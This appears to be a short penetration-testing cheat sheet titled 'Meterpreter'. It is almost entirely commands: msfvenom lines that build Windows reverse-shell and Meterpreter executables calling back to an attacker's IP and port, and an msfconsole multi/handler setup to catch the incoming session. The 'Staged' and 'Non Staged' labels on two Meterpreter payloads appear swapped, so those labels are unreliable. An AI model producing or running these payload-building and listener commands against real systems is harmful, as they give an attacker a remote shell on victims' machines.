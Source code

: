 ```yaml
---
title: Meterpreter
layout: default
parent: General Usage
---
```


* Regular Non-Staged

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

* Meterpreter Staged

```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

* Meterpreter Non Staged

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

To receive the incoming shell (change the set payload to the one you set):

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter_reverse_https
set lhost IP
set lport PORT
exploit
```
